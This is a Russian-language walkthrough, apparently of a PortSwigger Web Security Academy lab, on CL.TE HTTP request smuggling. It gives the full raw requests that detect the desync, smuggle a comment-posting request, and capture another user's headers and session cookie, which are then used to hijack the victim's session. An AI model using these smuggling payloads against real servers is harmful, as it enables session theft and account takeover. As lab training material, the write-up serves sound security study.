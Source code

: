 Перейдем на уязвимый ресурс 

и оставим  комментарий на странице


![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/9.%20Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/pics%20for%20walkthrough/1.png)

Перейдем в `Proxy` -> `HTTP history` и найдем там его
и отправим его в `Repeater`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/9.%20Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/pics%20for%20walkthrough/2.png)

А так же в Repeater отправим запрос на корневую страницу, с помощью нее мы и выясним` CL/TE` на фронте и на бэке

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/9.%20Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/pics%20for%20walkthrough/3.png)
```
POST / HTTP/1.1
Host: 0aee00aa039a2bb2846a5454001600da.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-encoding: chunked

3
abc
X
```
и в ответ увидим timeout 

а значит, что там связки `CL + TE`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/9.%20Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/pics%20for%20walkthrough/4.png)

Далее идея состоит в следующем, чтобы запрос от стороннего юзверя попал в комментарии, и мы потом его прочли с комментария и получили все его заголовки где есть куки!

Воспользуемся квери для комментария 
```
POST / HTTP/1.1
Host: 0aee00aa039a2bb2846a5454001600da.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 349
Transfer-encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0aee00aa039a2bb2846a5454001600da.web-security-academy.net
Cookie: session=9wUPlistaYTBxsXGDGq2GlWtsyDsDkOW
Content-Type: application/x-www-form-urlencoded
Content-Length: 400

csrf=HLIq8YBXcSQHIbMVkjdYvsOjzIR0xGwH&postId=6&name=naming&email=test%40test.com&website=http%3A%2F%2Fqq.com&comment=commentariy
```
и главное `comment=commentariy` поставим в конец, ибо в него должны попасть заголовки другого запроса

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/9.%20Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/pics%20for%20walkthrough/5.png)

и немного подождем, и обновим страницу на вебморде

увидим, что у нас все получилось, но не весь запрос попал в комментарий
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/9.%20Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/pics%20for%20walkthrough/6.png)

Увеличим число до 950 байт


```
POST / HTTP/1.1
Host: 0aee00aa039a2bb2846a5454001600da.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 349
Transfer-encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0aee00aa039a2bb2846a5454001600da.web-security-academy.net
Cookie: session=9wUPlistaYTBxsXGDGq2GlWtsyDsDkOW
Content-Type: application/x-www-form-urlencoded
Content-Length: 950

csrf=HLIq8YBXcSQHIbMVkjdYvsOjzIR0xGwH&postId=6&name=naming&email=test%40test.com&website=http%3A%2F%2Fqq.com&comment=commentariy1
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/9.%20Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/pics%20for%20walkthrough/7.png)

и спустя время увидим страницу
```
commentariy1GET / HTTP/1.1 Host: 0aee00aa039a2bb2846a5454001600da.web-security-academy.net sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24" sec-ch-ua-mobile: ?0 sec-ch-ua-platform: "Linux" upgrade-insecure-requests: 1 user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 sec-fetch-site: none sec-fetch-mode: navigate sec-fetch-user: ?1 sec-fetch-dest: document accept-encoding: gzip, deflate, br, zstd accept-language: en-US,en;q=0.9 priority: u=0, i cookie: victim-fingerprint=0Fxc6sGKPf69T04Y60MxiKFg4bMLcTDy; secret=VxVj8QJzGl1dRlcgailMbcBhUNZB7IfC; session=pEevvUTUHtmpFUwy0CxHrCXpozeWoDt4 C
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/9.%20Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/pics%20for%20walkthrough/8.png)

в которой и есть куки пользовтателя
`session=pEevvUTUHtmpFUwy0CxHrCXpozeWoDt4`

сменим куки в браузере и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/9.%20Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/pics%20for%20walkthrough/9.png)
